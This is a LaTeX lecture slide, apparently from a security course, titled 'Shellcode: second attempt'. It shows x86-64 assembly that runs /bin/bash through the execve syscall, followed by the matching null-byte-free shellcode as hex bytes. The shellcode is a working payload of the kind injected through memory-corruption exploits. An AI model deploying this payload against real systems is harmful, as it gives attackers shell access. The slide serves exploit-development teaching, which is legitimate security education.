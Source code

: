 \begin{frame}{Shellcode: second attempt}
	\acode
	\begin{lstlisting}
		bits 64
		jmp code
		filename db '/bin/bash','n' ; 'n' is the marker
		args db 16
		code:
		  lea rdi, [rel filename] ; negative offset
		  lea rsi, [rel args] ; negative offset
		  xor rdx, rdx ; zeros rdx
		  mov [rel filename+10], dl ; zeros the marker 
		  mov [rel args], rdi
		  mov [rel args+8], rdx
		  xor rax,rax ; zeros rax
		  mov al, 59 ; uses smaller register
		  syscall
	\end{lstlisting}
	\begin{lstlisting}
		\xeb\x0b\x2f\x62\x69\x6e\x2f\x62\x61\x73\x68\x6e
		\x10\x48\x8d\x3d\xee\xff\xff\xff\x48\x8d\x35\xf1
		\xff\xff\xff\x48\x31\xd2\x88\x15\xe8\xff\xff\xff
		\x48\x89\x3d\xe1\xff\xff\xff\x48\x89\x15\xe2\xff
		\xff\xff\x48\x31\xc0\xb0\x3b\x0f\x05
	\end{lstlisting}
	\begin{itemize}
		\item Zero-bytes eliminated.
	\end{itemize}
\end{frame}
